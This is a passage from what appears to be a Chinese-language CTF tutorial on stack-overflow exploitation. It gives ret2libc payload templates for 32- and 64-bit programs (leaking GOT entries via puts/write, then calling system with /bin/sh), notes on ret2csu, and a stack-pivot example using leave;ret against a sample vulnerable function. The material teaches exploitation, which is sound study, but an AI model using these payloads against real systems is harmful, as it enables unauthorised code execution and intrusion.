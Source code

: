 write

```text
payload1=[填充]+[puts@plt]+[main]+[某函数@got]
payload2=[填充]+[system@libc_addr]+[4bit填充]+[binsh@libc_addr]
```

64位程序：

puts

```text
payload1=[填充]+[pop_rdi]+[某函数@got]+[puts@plt]+[main]
payload2=[填充]+[pop_rdi]+[binsh@libc_addr]+[system@libc_addr]
```

write

稳妥来说需要控制3个寄存器：write(1,[输出地址],[输出长度]) 。如果找不到rdx的gadget和[上面小结](#ROP利用链)一样尝试看看rdx原值是否符合需求，如果要不满足就得用ret2csu技巧控制前三个寄存器。

**无后门&溢出长度等于ip**

溢出只能够刚好覆盖完ip就不能再溢出更多字节，显然是不能写入完整的利用链，这种情况可以考虑栈迁移。栈迁移就是将原本写在ip后面的利用链写到其他地方，通过控制bp、ip将栈迁移到利用链的位置，运行提前布置的利用链。

首先这种题目会有一到两次输入的机会，输入内容可能会是局部变量或者全部变量（bss段）。栈迁移需要明确的迁移地址，基于存放位置不同难度也不同：

全局变量

写到bss段就比较简单了，迁移地址直接到ida查全局变量地址即可。

局部变量

局部变量在栈上，栈地址是动态的，所以要先泄露栈地址才能进行栈迁移，但是也有用sub esp,xx这种神奇gadget将栈抬高的操作。如果用迁移到栈上一般会有两次输入一次，一次是泄露栈地址，一次是写入利用链。

需要注意一点：假如写入地址和迁移地址为addr，有效利用链需要从addr+一个机器周期开始写入，具体自行调试查看sp变化。

思路

为了便于总结假设一个32位程序有两次输入，第一次向全局变量var_1（地址为：addr）写入，第二次向局部变量s写入。

```text
// 32位程序
int vul()
{
  char s; // [esp+Ch] [ebp-6Ch]
  puts("input:");
  gets(&var_1); //栈溢出漏洞，溢出长度不限
  puts("input:");
  read(0,&s,0x74);  //栈溢出漏洞，溢出长度有限
  return puts("OK,Bye!");
}
```

提前用ROPgadget找到leave;ret gadget，然后构造payload如下：

```text
payload1='a'*4+p32(puts@plt)+p32(main)+p32(puts@got)
payload2='a'*0x6c+p32(addr)+p32(leave;ret)
```
